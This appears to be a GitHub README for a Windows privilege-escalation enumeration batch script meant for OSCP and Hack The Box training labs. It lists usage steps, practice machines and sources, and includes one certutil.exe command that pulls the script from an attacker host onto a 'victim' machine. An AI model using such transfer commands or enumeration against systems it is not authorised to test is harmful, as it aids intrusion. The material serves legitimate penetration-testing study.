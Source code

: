# Powerless
A Windows privilege escalation (enumeration) script designed with OSCP labs (i.e. legacy Windows machines without Powershell) in mind. The script represents a conglomeration of various privilege escalation checks, gathered from various sources, all done via native Windows binaries present in almost every version of Windows.

Note, the batch file also operates on the latest versions of Windows as well. PowerShell is not necessary to achieve proper OS enumeration.

# Use
Copy the batch file from your attacker machine to a user writeable directory on the victim machine (typically the current users folder, or the "public" user folder will be writeable). 

Also (although the script will run without it), it recommened you copy (an older verison of) AccessChk.exe to the same location. It is recommended you use an older version of AccessChk.exe as the latest verison will not work on some older Windows machines. The archived version here worked well in my experience (thanks, g0tmi1k); https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

There are many ways to copy over files. I found certutil.exe to be the most reliable across Windows editions. For example;

    certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat
    
The script may generate a lot of output. My recommended approach is to go through it sequentially making a list of 'interesting' things to look at, sorting them as you go. Once you've reached the end of the output, go through your list in order of what stuck out the most. 

You will do yourself a great disservice if you lean heavily on kernel exploits at the expense of thorough Windows enumeration. Although you may find kernel exploits often in work in the labs, try to find other avenues as well. The script has comments sprinkled throughout to try to provide guidance on what to look for. 

# Recommended OSCP-like Windows Hack The Box machines 
Regretably, the vast majority of HTB Windows machines require kernel exploits for privilege escalation. I found the following machines helpful for practicing priv esc (read, not your typical privilege escalation).

-  Chatterbox
-  Jeeves
-  Access
-  Active
-  SecNotes

# Sources
-  http://www.fuzzysecurity.com/tutorials/16.html
-  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
-  https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
-  https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
-  https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
